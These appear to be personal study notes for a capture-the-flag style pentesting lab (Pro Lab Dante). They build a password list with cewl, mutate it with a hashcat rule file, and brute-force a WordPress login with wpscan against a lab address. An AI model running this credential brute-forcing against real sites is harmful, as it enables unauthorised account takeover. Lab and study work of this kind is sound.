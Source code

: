 - If you're dealing with a potential WP Site, you can do two things: Use rockyou.txt or create a custom list such as cewl
- Cewl is a custom list:
	- cewl http://<IP address or hostname> -w password.txt to output into whatever named file.
		- another option is to use cewl with flags -d and m (d is depth to spider and m is minimum length)
-You can create a custom rule for your password list:
- nano custom.rule

:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@

- Run Hashcat to mutate the cewl list with the custome rule to create different combinations
	- hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
-  Another option is to navigate to existing rules in /usr/share/hashcat/rules/best64.rule

- In the example of Pro Lab Dante, command looks like this to brute force the login page:
	- wpscan --url http://10.10.110.100:65000/wordpress --username james -P mut_password.list